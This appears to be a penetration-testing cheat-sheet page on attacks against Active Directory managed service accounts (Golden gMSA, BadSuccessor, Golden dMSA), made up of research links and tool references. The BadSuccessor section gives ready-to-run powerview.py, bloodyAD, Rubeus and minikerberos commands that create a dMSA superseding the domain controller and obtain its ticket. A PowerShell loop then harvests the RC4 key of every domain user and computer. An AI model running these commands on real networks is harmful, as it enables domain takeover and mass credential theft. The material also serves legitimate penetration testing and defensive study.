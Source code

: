 ```yaml
---
description: Group Managed Service Accounts / Delegated Managed Service Accounts
---
```


# gMSA / dMSA




## Golden gMSA

- [https://www.semperis.com/blog/golden-gmsa-attack/](https://www.semperis.com/blog/golden-gmsa-attack/)
- [https://github.com/Semperis/GoldenGMSA](https://github.com/Semperis/GoldenGMSA)




## BadSuccessor

- [https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
- [https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
- [https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/](https://sapirxfed.com/2025/05/24/the-new-dmsa-vuln-for-people-who-dont-know-what-dmsa-is/)
- [https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/](https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/)
- [https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/](https://kreep.in/badsuccessor-abusing-dmsas-for-ad-domination/)

Enumerate OUs where we can create child objects (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Get-DomainObjectAcl -LDAPFilter "(objectClass=organizationalUnit)" -Where "ActiveDirectoryRights contains CreateChild"
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] get writable --otype OU [--right CHILD]
```

Create a dMSA account with a superseded account in the `msDS-ManagedAccountPrecededByLink` property (using [powerview.py](https://github.com/aniqfakhrul/powerview.py) or [bloodyAD](https://github.com/CravateRouge/bloodyAD)):

```
PV > Add-DomainDMSA -Identity mydmsa -PrincipalsAllowedToRetrieveManagedPassword jdoe -SupersededAccount DC01 [-BaseDN "CN=Managed Service Accounts,DC=megacorp,DC=local"]
$ bloodyAD -d megacorp.local -k --host DC01.megacorp.local --dc-ip 192.168.1.11 --dns 192.168.1.11 [--gc 192.168.1.11] [-s] add badSuccessor mydmsa -t "CN=DC01,OU=Domain Controllers,DC=megacorp,DC=local" [--ou "CN=Managed Service Accounts,DC=megacorp,DC=local"]
```

Ask for a TGT containing the superseded account PAC (using [Rubeus](https://github.com/GhostPack/Rubeus) or [minikerberos-getDmsa](https://github.com/skelsec/minikerberos/blob/main/minikerberos/examples/getDmsa.py)):

```
Cmd > Rubeus.exe asktgs /targetuser:mydmsa$ /service:krbtgt/megacorp.local /dmsa /opsec /nowrap /ticket:<JDOE_TGT>
$ python3 minikerberos/examples/getDmsa.py 'kerberos+ccache://megacorp.local\jdoe:tgt.ccache@192.168.1.11' 'mydmsa$@megacorp.local' --ccache /tmp/mydmsa.ccache
```

Request TGT and grep for "previous keys" (from `KERB-DMSA-KEY-PACKAGE` structure), which is actually current RC4 of the superseded account, for all domain users and computers in a loop (requires [this Rubeus](https://github.com/GhostPack/Rubeus/compare/master...YuG0rd:Rubeus:master)):

```powershell
$domain = Get-ADDomain
$dmsa = "CN=mydmsa,CN=Managed Service Accounts,$($domain.DistinguishedName)"
$allDNs = @(Get-ADUser -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName) `
        + @(Get-ADComputer -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName)
$allDNs | % {
    Set-ADObject -Identity $dmsa -Replace @{ "msDS-ManagedAccountPrecededByLink" = $_.DN }
    $res = Invoke-Rubeus asktgs /targetuser:mydmsa$ /service:"krbtgt/$($domain.DNSRoot)" /opsec /dmsa /nowrap /ticket:$kirbi
    $rc4 = [regex]::Match($res, 'Previous Keys for .*\$: \(rc4_hmac\) ([A-F0-9]{32})').Groups[1].Value
    "$($_.sAMAccountName):$rc4"
}
```



### Tools

- [https://github.com/akamai/BadSuccessor](https://github.com/akamai/BadSuccessor)
- [https://github.com/logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessorCheck.ps1)




## Golden dMSA

- [https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [https://github.com/Semperis/GoldenDMSA](https://github.com/Semperis/GoldenDMSA)
